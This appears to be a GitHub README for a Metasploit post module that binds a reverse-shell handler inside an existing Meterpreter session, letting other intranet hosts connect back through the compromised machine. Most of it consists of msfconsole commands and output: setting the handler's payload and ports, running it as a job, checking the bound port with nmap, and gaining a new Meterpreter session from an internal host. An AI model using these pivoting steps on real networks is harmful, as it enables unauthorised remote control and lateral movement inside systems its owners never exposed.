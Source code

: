 # session_handler
a post module of metasploit, bind handler in meterpreter session 

frist you need get a meretpreter session 
```bash
msf6 exploit(multi/handler) > sessions 

活动会话
============

  Id  名称    类型                     信息           连接
  --  ------    ------                     ------           ------
  1           meterpreter x86/windows  w-PC\w @ W-PC  192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
```




run  use exploit/multi/session_handler 
```bash

msf6 exploit(multi/handler) >   use exploit/multi/session_handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/session_handler) > options
msf6 exploit(multi/session_handler) > set lport  14444 
msf6 exploit(multi/session_handler) > set lhost 192.168.56.1 #local machine public address 
msf6 exploit(multi/session_handler) > set payload windows/x64/meterpreter_reverse_tcp 
msf6 exploit(multi/session_handler) > set session  1 #the meterpreter sessionid  
msf6 exploit(multi/session_handler) > run -j #as job
msf6 exploit(multi/session_handler) > jobs 

Jobs
====

  Id  name                           payload                          options
  --  ------                            ------------                           ------------------
  5   Exploit: multi/session_handler  linux/x64/meterpreter_reverse_tcp  tcp://192.168.56.1:14444
```


now ,you can see the port  14444 is binding in  192.168.56.102 (meterpreter session machine).

check port is open with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-30 17:43 CST
Nmap scan report for 192.168.56.102
Host is up (0.00047s latency).

PORT      STATE SERVICE
14444/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```




 execute windows/x64/meterpreter_reverse_tcp on other machine (The machine must have access to 192.168.56.102  ) , the you will be get a new meterpreter session from intranet host.

```bash
msf6 exploit(multi/session_handler) > [*] Meterpreter session 3 opened (192.168.56.1:14444 -> 192.168.56.1:40977) at 2022-07-30 17:32:46 +0800
msf6 exploit(multi/session_handler) > 
msf6 exploit(multi/session_handler) > sessions 
活动会话
============

  Id  Nmae  Type                     Info                                                                    Connection
  --  ------    ------                     ------                                                                    ------
  1           meterpreter x86/windows  w-PC\w @ W-PC                                                           192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
  3           meterpreter x86/linux    w @ w-F117-V (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.168.1.12  192.168.56.1:14444 -> 192.168.56.1:40977 (192.168.56.1)
```
